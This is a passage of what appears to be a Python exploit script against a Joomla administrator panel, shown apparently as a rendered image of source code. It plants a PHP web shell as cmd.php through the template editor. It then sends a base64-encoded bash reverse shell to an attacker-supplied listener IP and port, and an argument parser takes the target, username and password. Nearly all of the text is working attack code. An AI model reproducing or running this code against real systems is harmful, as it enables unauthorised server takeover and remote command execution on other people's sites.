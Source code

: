 ```py
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "Connection": "close", "Referer": "http://%s/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==" %rhost, "Upgrade-Insecure-Requests": "1"}
    r.post(url, proxies=proxies, cookies=r.cookies, data=data, headers=headers)
    # Let's save it with the php malicious
    url = "http://" + rhost + ":80/administrator/index.php?option=com_templates&view=template&id=506&file=L2NtZC5waHA%3D"
    r.get(url, proxies=proxies, cookies=r.cookies)
    # Save
    data1 = {"jform[source]": "<?php system($_GET['cmd']);?>", "task": "template.save", "%s" %upsecurity: "1", "jform[extension_id]": "506", "jform[filename]": "/cmd.php"}
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "Connection": "close", "Referer": "http://" + rhost +"/administrator/index.php?option=com_templates&view=template&id=506&file=L2NtZC5waHA%3D", "Upgrade-Insecure-Requests": "1"}
    url = "http://%s:80/administrator/index.php?option=com_templates&view=template&id=506&file=L2NtZC5waHA=" %rhost
    r.post(url, proxies=proxies, cookies=r.cookies, data=data1, headers=headers)
    # Save
    url = "http://%s:80/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==" %rhost
    r.get(url, proxies=proxies, cookies=r.cookies)
    # Let's trigger it
    
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/templates/protostar/cmd.php?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.port
    username = args.username
    password = args.password

    '''Here we call the functions'''

    # Set up the handler
```